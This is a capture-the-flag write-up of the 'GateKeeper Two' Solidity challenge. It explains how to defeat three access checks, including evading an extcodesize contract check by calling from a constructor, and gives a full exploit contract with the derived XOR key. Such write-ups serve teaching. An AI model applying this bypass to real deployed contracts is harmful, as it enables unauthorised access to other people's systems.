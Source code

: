 # GateKeeper Two

## Challenge Statement

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.
Things that might help:

    Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
    The assembly keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See here for more information. The extcodesize call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the yellow paper.
    The ^ character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see here). The Coin Flip level is also a good place to start when approaching this challenge.

## Analysis

Similar to GateKeeperOne, we have 3 gates to pass.

Gate 1: msg.sender != tx.origin
Therefore a contract needs to be the one exploiting this.

Gate 2: assembly { x := extcodesize(caller()) }, require(x == 0);
This check looks to ensure the caller has no code - i.e an EOA, not a contract. A trick to bypass this is to put the exploit of the contract during the constructor phrase when the contract is not fully instantiated yet.

Gate 3: require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
```a ^ b = c == a ^ c = b```
We can therefore do:
```uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ (uint64(0) - 1)```

## Solution

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IGatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperTwoHack {
    IGatekeeperTwo target;

    constructor() public {
        target = IGatekeeperTwo(0xA88610B53286567FfE7c5F0CA6Bf70826037f9a5);
        uint64 key = uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ (uint64(0) - 1);
        bool success = target.enter(bytes8(key));
    }

}
```

## Moral

Way to go! Now that you can get past the gatekeeper, you have what it takes to join theCyber, a decentralized club on the Ethereum mainnet. Get a passphrase by contacting the creator on reddit or via email and use it to register with the contract at gatekeepertwo.thecyber.eth (be aware that only the first 128 entrants will be accepted by the contract).